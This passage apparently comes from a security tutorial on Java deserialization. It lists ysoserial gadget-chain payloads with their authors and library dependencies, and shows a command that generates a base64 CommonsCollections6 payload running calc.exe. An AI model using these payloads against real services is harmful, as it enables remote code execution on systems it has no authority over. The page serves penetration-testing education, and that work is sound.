      Hibernate1          @mbechler                                                                                                                                                                                                                                  
     Hibernate2          @mbechler                                                                                                                                                                                                                                  
     JBossInterceptors1  @matthias_kaiser                       javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21                                            
     JRMPClient          @mbechler                                                                                                                                                                                                                                  
     JRMPListener        @mbechler                                                                                                                                                                                                                                  
     JSON1               @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1      @matthias_kaiser                       javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21                                                        
     Jdk7u21             @frohoff                                                                                                                                                                                                                                   
     Jython1             @pwntester, @cschneider4711            jython-standalone:2.5.2                                                                                                                                                                             
     MozillaRhino1       @matthias_kaiser                       js:1.7R2                                                                                                                                                                                            
     MozillaRhino2       @_tint0                                js:1.7R2                                                                                                                                                                                            
     Myfaces1            @mbechler                                                                                                                                                                                                                                  
     Myfaces2            @mbechler                                                                                                                                                                                                                                  
     ROME                @mbechler                              rome:1.0                                                                                                                                                                                            
     Spring1             @frohoff                               spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE                                                                                                                                               
     Spring2             @mbechler                              spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2                                                                                                           
     URLDNS              @gebl                                                                                                                                                                                                                                      
     Vaadin1             @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14                                                                                                                                                          
     Wicket1             @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4                                                                                                                                                                 
</code></pre>

Use a payload by choosing the name as the first argument, and a fitting command as the second. A payload like [`CommonsCollections6`](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections6.java) requires a command, so the following will generate it:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ java -jar ysoserial.jar CommonsCollections6 'calc.exe' | base64 -w 0
</strong>rO0ABXNyABFqYXZhLnV0aWwuSGFzaFNldLpEhZWWuLc0AwAAe...
</code></pre>

{% hint style="warning" %}
If you are receiving `InaccessibleObjectException` or `IllegalAccessError`, this is because _Java >12_ does not allow the way ysoserial accesses classes. \
The `--illegal-access=permit` argument can be added to fix it, but after _Java 17_ even this is not allowed. From there, explicit `--add-opens` arguments need to be added which [this gist](https://gist.github.com/JorianWoltjer/5210e99c13189446ece5ffe3e9fe3d90) can do for you.
